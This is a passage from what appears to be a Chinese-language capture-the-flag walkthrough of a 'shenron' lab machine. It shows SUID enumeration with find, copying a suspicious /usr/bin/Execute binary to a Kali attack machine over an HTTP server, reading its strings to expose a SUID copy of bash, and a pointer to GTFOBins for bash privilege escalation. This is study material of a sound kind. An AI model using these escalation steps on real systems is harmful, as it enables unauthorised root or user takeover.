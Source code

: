 登录成功，找一下可利用的信息

```
find / -perm -u=s -type f 2>/dev/null
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

找到2个可以提权的程序，想了想还是不要用pkexec了，先执行下Execute看看是什么

```
/usr/bin/Execute
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

运行后没有回显，把他下载到kali攻击上检查下

靶机上开启http服务

```
`cp /usr/bin/Execute /tmp``cd /tmp``python3 -m http.server`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

kali攻击机下载Execute

```
`wget http://192.168.7.175:8000/Execute``ls`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

已下载到本地的kali上，来看看程序执行了什么操作

```
strings Execute
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

看到程序执行了一大串命令

```
`usr/bin/cp /bin/bash /mnt/bash;//复制bash到mnt目录下``/usr/bin/chmod 777 /mnt/bash;//分配所有用户可读写执行权限``/usr/bin/chown shenron:shenron /mnt/bash;//将文件分配给shenron``/usr/bin/chmod u+s /mnt/bash//加suid`
```

权限提升  

### suid提权

可以看到/mnt/bash程序有shenron的suid权限，查一下bash如何提权

```
https://gtfobins.github.io/gtfobins/bash/
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

